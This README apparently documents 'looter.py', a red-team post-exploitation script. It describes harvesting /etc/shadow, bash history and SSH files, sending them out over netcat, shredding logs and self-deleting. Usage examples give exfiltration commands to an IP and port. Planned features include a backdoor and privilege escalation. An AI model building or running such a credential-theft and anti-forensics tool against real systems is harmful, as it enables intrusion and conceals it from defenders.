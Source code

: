 #Module 1 - looter.py 
##Idea
On the 842 Ideas Spreadsheet, Andrew Kramer suggested the idea of creating an automated looting script that will collect relevant data for someone who gained root access to a box.  This is great for red team exercises where the attacker wants to be able to quickly grab useful files and data before getting booted off the system.

##Purpose
This script will crawl through a box and quickly collect useful information for an attacker.  The script will determine which OS it is on to ensure compatibility before attempting to collect anything.  The nest egg (collection stash) location will be in the present working directory of the script unless specified by the user.

This script makes an attempt is made to copy relevant files including but not limited to /etc/passwd, /etc/shadow, ~/.bash_history, etc to the nest egg location.  Once everything is collected, the files are prepared and zipped for exfiltration.  Currently, the script uses netcat to create a network connection to a listening post for exfiltration.

The goal is to be discreet and the script will shred logs, avoid writing to bash_history, and cover its own tracks after performing collections.

This Python script has been tested on Kali Linux 64 bit with Python 2.7.12.

##Help Screen 
```
usage: looter.py [-h] [-a] [-ne] [-d PATH] [-t TARGET] [-p PORT] [-r]

Looter script, collects juicy data for malicious use.

optional arguments:
  -h, --help            show this help message and exit
  -a, --all             perform all collections
  -ne, --noexfil        disable exfil feature, drop tar file in dir
  -d PATH, --dir PATH   specify nest egg path
  -t TARGET, --target TARGET 
  						specify exfil ip address (IPv4 only)
  -p PORT, --port PORT  specify exfil port number
  -r, --remove          remove script after execution
```
##Usage Examples

A collection without any exfiltration can be done with the command below:

```
python ./looter.py -a -ne
```

A collection with exfiltration to a specified IP address and port can be done with the command below:

```
python ./looter.py -a -t 10.0.0.1 -p 1234
```

Specifying the -r flag will cause the script to be destroyed after execution to cover its tracks:

```
python ./looter.py -a -t 10.0.0.1 -p 1234 -r
````

Specifying the -d flag with a valid path will change the default nest egg location:
```
python ./looter.py -a -t 10.0.0.1 -p 1234 -d ~/Desktop/
```

##Known Issues
* Clean up collection of ~/.ssh/ file (currently throws everything into single folder with everything else)
* Not sure how "discreet" the script is yet, plenty of room for improvement

##Future Work
* Search ssh known_hosts file and attempt to log into entries
* Dump any databases into a file
* Run a quick internal network scan and output into a file

##Long Term Goals
* Attempt privilege escalation
* Attempt to install a basic backdoor
* Provide OS compatibility across OSX, Windows, and *nix

##Resources
https://pymotw.com/2/argparse/

http://stackoverflow.com/questions/3718657/how-to-properly-determine-current-script-directory-in-python

http://stackoverflow.com/questions/110362/how-can-i-find-the-current-os-in-python

http://stackoverflow.com/questions/2032403/how-to-create-full-compressed-tar-file-using-python

http://stackoverflow.com/questions/4417546/constantly-print-subprocess-output-while-process-is-running

https://docs.python.org/2/library/os.path.html#os.path.basename

http://stackoverflow.com/questions/29065781/how-can-i-get-a-python-program-to-kill-itself-using-a-command-run-through-the-mo

